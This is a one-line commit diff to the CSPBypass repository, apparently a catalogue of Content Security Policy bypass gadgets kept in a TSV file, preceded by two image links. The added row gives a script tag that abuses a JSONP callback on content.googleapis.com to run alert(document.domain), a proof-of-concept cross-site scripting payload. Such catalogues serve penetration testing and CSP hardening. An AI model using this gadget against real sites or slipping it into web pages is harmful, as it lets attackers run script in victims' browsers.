

Before and after one commit to rcbarnett/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; the shorter side is filled out with more unchanged rows; long unchanged cells end in …; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
content.googleapis.com

```diff
--- a/data.tsv
+++ b/data.tsv
+row 69: content.googleapis.com <script src="https://content.googleapis.com/discovery/v1/apis?callback=alert(document.domain);var%20ignorethat="></script>
```
